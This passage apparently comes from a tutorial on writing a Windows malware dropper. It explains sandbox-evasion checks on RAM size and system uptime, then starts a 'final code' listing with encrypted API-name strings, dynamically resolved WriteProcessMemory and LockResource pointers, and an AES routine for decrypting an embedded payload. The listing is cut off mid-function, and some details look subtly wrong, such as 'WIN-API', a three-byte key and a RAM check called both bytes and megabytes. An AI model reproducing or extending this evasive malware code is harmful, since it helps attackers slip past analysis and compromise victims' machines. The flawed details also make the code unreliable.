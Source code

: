 In the code snipped above we will actually going to check if the malware is executed in a machine with no less tha 2048 bytes of RAM memory. Since most of the actual sandbox or automatic VM analyss sofware will run with 1, 2GB or RAM the malware will prevent executions if the machine has less than 2048 MB


```cpp
//check uptime 
ULONGLONG uptime = GetTickCount64() / 1000;
if (uptime < 1200) return 0; //20 minutes
```

__IMG 3:__ Checking PC Uptime

In the code snipped above we are actually checking the computer uptime time. This is to check weather the dropper is being opened in a virtual machine or on a user target machine, possible joined with an Active Directory domain.



## 4) WrapUp - Final Code

4) `Final Code`
Below we can find the full c++ code written for this exercise. 

```c++
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <wincrypt.h>
#include <tlhelp32.h>
#include "resources.h"
#pragma comment (lib, "crypt32.lib")
#pragma comment (lib, "advapi32")
#include <psapi.h>

BOOL (WIN-API * pWriteProcessMemory)(
  HANDLE  hProcess,
  LPVOID  lpBaseAddress,
  LPCVOID lpBuffer,
  SIZE_T  nSize,
  SIZE_T  *lpNumberOfBytesWritten
);

LPVOID (WIN-API * pLockResource)(
  HGLOBAL hResData
);

//AES global encryption key used for payload and strings
	char key[] = { 0x32, 0x31, 0x66 }; //
	
	//c=aesenc("VirtualAlloc\x00","addyourkey")
	//print('payload[] = { 0x' + ', 0x'.join(hex(ord(x))[2:] for x in c) + ' };')
	//payload[] = { 0x84, 0x57, 0x6b, 0x9e, 0x5b, 0x9c, 0xa6, 0x98, 0xd3, 0x47, 0xfc, 0xd6, 0x6, 0xea, 0x85, 0x3e };
	
	unsigned char sLockResource[] = { 0x62, 0x63, 0xa5, 0x66, 0x92, 0x53, 0xbe, 0xd1, 0xf1, 0x35, 0x41, 0x9, 0xf4, 0x22, 0xbd, 0x8f };
	unsigned char sWriteProcessMemory[] = { 0xac, 0x3c, 0xa9, 0x7f, 0x9, 0x25, 0xe2, 0x98, 0x6b, 0xa8, 0xa7, 0xab, 0xb5, 0xf, 0x87, 0x8d, 0xd8, 0x5b, 0x37, 0xf3, 0xa2, 0xd5, 0x93, 0x94, 0xd7, 0xfd, 0xac, 0xc6, 0x40, 0xc4, 0xf9, 0x13 };


//AES ENC
int AESDecrypt(char * payload, unsigned int payload_len, char * key, size_t keylen) {
        HCRYPTPROV hProv;
```